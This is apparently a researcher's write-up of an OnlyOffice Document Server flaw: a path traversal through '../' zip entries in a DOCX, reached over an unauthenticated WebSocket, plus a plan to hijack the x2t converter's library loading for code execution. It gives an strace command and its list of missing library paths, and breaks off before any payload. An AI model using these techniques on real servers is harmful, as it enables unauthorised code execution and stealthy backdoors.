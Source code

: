 ## Arbitrary File Write

Always do a bit of research first, kids! Surprisingly, it doesn't look like there was much of an attempt to correct this vulnerability. It's a fairly classic path traversal flaw at its core. MS Office formats (after 2007) are simply zip files with a standard file structure containing XML files and anything else that is embedded such as images. The document converter used by OnlyOffice converts an MS Office file and extracts it to a temporary location, writing any files within it out to a location **relative to that temp directory**. After the conversion is complete, the temp directory is deleted, but crucially if a file within the zip has path traversal characters ("../"), these can be used to write to any location on the document server which is writable by the web server.

I tested this out by taking a legitimate DOCX file and adding to it a small file with the path `../../../../../../../../../../tmp/test`. I hosted this on a local webserver and then prompted the document server to download it via the unauthenticated WebSocket. Sure enough, jumping into the Docker container running the document server, there was the file `test`, sitting in `/tmp/`.

## Exploiting for Code Execution

Now to exploit this. I thought quite a nice way of exploiting remote code execution would be to backdoor the document converter tool so that all of the command and control traffic could simply just flow over the same WebSocket channel that we were already using. This included the added bonus that it did not appear that WebSocket messages were being logged. I looked into the document converter, and the binary central to it all, called `x2t`. For some reason it wasn't possible to overwrite `x2t` itself during document conversion, so inside the Docker container for the document server I enumerated the dynamic libraries that `x2t` used or, more specifically, which binaries it was searching for and **not** finding in locations that I could write to using the path traversal vulnerability:

```bash
strace ./x2t 2>&1 | grep "No such" | grep -o "[^ ]\+\.so"
```
```
"/var/www/onlyoffice/documentserver/server/FileConverter/bin/tls/haswell/x86_64/libgraphics.so
"/var/www/onlyoffice/documentserver/server/FileConverter/bin/tls/haswell/libgraphics.so
"/var/www/onlyoffice/documentserver/server/FileConverter/bin/tls/x86_64/libgraphics.so
"/var/www/onlyoffice/documentserver/server/FileConverter/bin/tls/libgraphics.so
"/var/www/onlyoffice/documentserver/server/FileConverter/bin/haswell/x86_64/libgraphics.so
"/var/www/onlyoffice/documentserver/server/FileConverter/bin/haswell/libgraphics.so
"/var/www/onlyoffice/documentserver/server/FileConverter/bin/x86_64/libgraphics.so
*"/var/www/onlyoffice/documentserver/server/FileConverter/bin/libpthread.so
"/var/www/onlyoffice/documentserver/server/FileConverter/bin/system/tls/haswell/x86_64/libpthread.so
"/var/www/onlyoffice/documentserver/server/FileConverter/bin/system/tls/haswell/libpthread.so
"/var/www/onlyoffice/documentserver/server/FileConverter/bin/system/tls/x86_64/libpthread.so
"/var/www/onlyoffice/documentserver/server/FileConverter/bin/system/tls/libpthread.so
"/var/www/onlyoffice/documentserver/server/FileConverter/bin/system/haswell/x86_64/libpthread.so
"/var/www/onlyoffice/documentserver/server/FileConverter/bin/system/haswell/libpthread.so
"/var/www/onlyoffice/documentserver/server/FileConverter/bin/system/x86_64/libpthread.so
"/var/www/onlyoffice/documentserver/server/FileConverter/bin/system/libpthread.so
"/var/www/onlyoffice/documentserver/server/FileConverter/bin/libm.so
"/var/www/onlyoffice/documentserver/server/FileConverter/bin/libc.so
"/var/www/onlyoffice/documentserver/server/FileConverter/bin/libgcc_s.so
"/var/www/onlyoffice/documentserver/server/FileConverter/bin/libdl.so
"/var/www/onlyoffice/documentserver/server/FileConverter/bin/libdl.so
"/var/www/onlyoffice/documentserver/server/FileConverter/bin/libstdc++.so
"/var/www/onlyoffice/documentserver/server/FileConverter/bin/libstdc++.so
```
